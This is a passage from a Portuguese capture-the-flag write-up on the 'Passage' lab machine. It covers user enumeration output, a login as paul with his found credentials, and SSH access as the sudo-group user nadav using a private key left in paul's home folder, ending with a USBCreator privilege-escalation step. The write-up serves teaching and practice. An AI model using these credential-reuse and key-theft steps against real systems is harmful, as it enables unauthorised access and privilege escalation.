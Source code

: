  ```
  [+] Users with console
  nadav:x:1000:1000:Nadav,,,:/home/nadav:/bin/bash
  paul:x:1001:1001:Paul Coles,,,:/home/paul:/bin/bash
  root:x:0:0:root:/root:/bin/bash
  ```

- Permissões para os usuários de console listados, onde **nadav** é o que possui mais privilégios na máquina, sendo inclusive membro do grupo **sudo**. 

  ```
  [+] All users & groups
  uid=1000(nadav) gid=1000(nadav) groups=1000(nadav),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
  uid=1001(paul) gid=1001(paul) groups=1001(paul)
  ```
  
Primeira coisa a ser testada a seguir foram as credenciais do usuário Paul, que funcionaram com sucesso na primeira tentativa e nos permitiram obter a flag de usuário! :smile:

```
www-data@passage:~$ su paul
Password:
paul@passage:~$ cat user.txt
<redacted>
paul@passage:~$
```

## Root flag

Ao obter a conta do usuário *paul*, foi testada novamente a exploração do USB-Creator, porém falhou do mesmo modo que o usuário www-data devido a privilégios insuficientes.

Analisando o diretório raiz do usuário, encontado um par de chaves RSA, a qual está inclusa no arquivo `authorized_keys` para conexão ssh sem credenciais. 

```
paul@passage:~/.ssh$ ls -la
total 24
drwxr-xr-x  2 paul paul 4096 Jul 21  2020 .
drwxr-x--- 16 paul paul 4096 Feb  5 06:30 ..
-rw-r--r--  1 paul paul  395 Jul 21  2020 authorized_keys
-rw-------  1 paul paul 1679 Jul 21  2020 id_rsa
-rw-r--r--  1 paul paul  395 Jul 21  2020 id_rsa.pub
-rw-r--r--  1 paul paul 1312 Jul 21  2020 known_hosts
```

Dando uma olhada mais de perto no arquivo `id_rsa.pub`, notei que ele foi criado pelo usuário **nadav**. Uma vez que vi esta informação, imediatamente tentei conectar via ssh com esta chave para o usuário nadav e por sorte tivemos sucesso! :smiley:

```bash
$ cat id_rsa.pub                                                                                                                 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzXiscFGV3l9T2gvXOkh9w+BpPnhFv5AOPagArgzWDk9uUq7/4v4kuzso/lAvQIg2gYaEHlDdpqd9gCYA7tg76N5RLbroGqA6Po91Q69PQadLsziJnYumbhClgPLGuBj06YKDktI3bo/H3jxYTXY3kfIUKo3WFnoVZiTmvKLDkAlO/+S2tYQa7wMleSR01pP4VExxPW4xDfbLnnp9zOUVBpdCMHl8lRdgogOQuEadRNRwCdIkmMEY5efV3YsYcwBwc6h/ZB4u8xPyH3yFlBNR7JADkn7ZFnrdvTh3OY+kLEr6FuiSyOEWhcPybkM5hxdL9ge9bWreSfNC1122qq49d nadav@passage

$ ssh -i id_rsa nadav@10.10.10.206
Last login: Thu Feb 25 13:41:27 2021 from 10.10.10.10
nadav@passage:~$ id
uid=1000(nadav) gid=1000(nadav) groups=1000(nadav),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
nadav@passage:~$	
```
Finalmente, como o usuário **nadav**, fiz uma última tentativa da exploração da vulnerabilidade do USBCreator. Desta vez tivemos sucesso, uma vez que este usuário possui diversos privilégios nesta máquina. 